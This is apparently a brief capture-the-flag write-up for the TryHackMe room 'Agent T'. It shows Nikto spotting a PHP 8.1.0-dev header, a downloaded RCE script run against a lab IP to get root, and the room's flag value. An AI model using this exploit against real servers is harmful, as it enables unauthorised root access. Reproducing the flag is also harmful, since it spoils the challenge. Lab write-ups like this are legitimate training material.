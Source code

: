 #writeups


## Agent T - THM

by reading the hint, I found something interesting, and using 
Nikto I got smth amazing 
`+ /: Retrieved x-powered-by header: PHP/8.1.0-dev.`

and when I look in google I found a RCE for that, I downloaded 
and I'm gonna try to exploit this one, if it possible

```
─$ python3 rceDev.py -u http://10.10.146.227/ -c whoami
[+] Results:
root
```
It works! amazing, now why not some reverse-shell just to get
persistence with the shell, after trying NO results, so catch
the flag manually, make some `ls`, after have that:

`flag{4127d0530abf16d6d23973e3df8dbecb}`

what a speedrun one, I left behind `Expires 37m 14s/59min`




```
Disc: This writeups help me a lot, even if it isnt the correct writeups for 
this box, but the technique are the same.

source: https://infosecwriteups.com/hackthebox-writeup-knife-2a3dd526d11d
```
